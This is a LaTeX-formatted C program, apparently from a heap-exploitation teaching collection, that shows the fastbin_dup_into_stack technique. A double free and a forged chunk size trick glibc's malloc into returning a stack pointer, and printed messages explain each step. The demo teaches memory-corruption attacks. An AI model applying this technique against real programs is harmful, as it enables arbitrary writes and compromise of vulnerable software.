 \subsection{fastbin\_dup\_into\_stack}
\begin{verbatim}
#include <stdio.h>
#include <stdlib.h>

int main()
{
    fprintf(stderr, "This file extends on fastbin_dup.c by tricking malloc into\n"
           "returning a pointer to a controlled location (in this case, the stack).\n");

    unsigned long long stack_var;

    fprintf(stderr, "The address we want malloc() to return is %p.\n", 8+(char *)&stack_var);

    fprintf(stderr, "Allocating 3 buffers.\n");
    int *a = malloc(8);
    int *b = malloc(8);
    int *c = malloc(8);

    fprintf(stderr, "1st malloc(8): %p\n", a);
    fprintf(stderr, "2nd malloc(8): %p\n", b);
    fprintf(stderr, "3rd malloc(8): %p\n", c);

    fprintf(stderr, "Freeing the first one...\n");
    free(a);

    fprintf(stderr, "If we free %p again, things will crash because %p is at the top of the free list.\n", a, a);
    // free(a);

    fprintf(stderr, "So, instead, we'll free %p.\n", b);
    free(b);

    fprintf(stderr, "Now, we can free %p again, since it's not the head of the free list.\n", a);
    free(a);

    fprintf(stderr, "Now the free list has [ %p, %p, %p ]. "
        "We'll now carry out our attack by modifying data at %p.\n", a, b, a, a);
    unsigned long long *d = malloc(8);

    fprintf(stderr, "1st malloc(8): %p\n", d);
    fprintf(stderr, "2nd malloc(8): %p\n", malloc(8));
    fprintf(stderr, "Now the free list has [ %p ].\n", a);
    fprintf(stderr, "Now, we have access to %p while it remains at the head of the free list.\n"
        "so now we are writing a fake free size (in this case, 0x20) to the stack,\n"
        "so that malloc will think there is a free chunk there and agree to\n"
        "return a pointer to it.\n", a);
    stack_var = 0x20;

    fprintf(stderr, "Now, we overwrite the first 8 bytes of the data at %p to point right before the 0x20.\n", a);
    *d = (unsigned long long) (((char*)&stack_var) - sizeof(d));

    fprintf(stderr, "3rd malloc(8): %p, putting the stack address on the free list\n", malloc(8));
    fprintf(stderr, "4th malloc(8): %p\n", malloc(8));
}
\end{verbatim}

